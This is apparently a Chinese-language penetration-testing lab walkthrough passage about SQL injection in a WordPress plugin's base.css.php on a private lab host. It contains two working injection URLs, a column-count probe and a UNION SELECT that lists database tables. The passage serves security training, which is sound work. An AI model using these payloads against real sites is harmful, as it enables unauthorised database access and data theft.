 猜字段：

```bash
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16%20order%20by%203--%20-
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512116084454.png)

报错为3，即字段是`2`。

知道字段之后，利用联合查询。

```bash
http://172.16.0.11/wp-content/plugins/kittycatfish-2.2/base.css.php?kc_ad=16+union+select+0x6b635f61645f637373,%28SELECT%20GROUP_CONCAT%28table_name%29%20FROM%20information_schema.tables%20WHERE%20table_schema=database%28%29%20GROUP%20BY%20table_name%20LIMIT%200,1%29
```
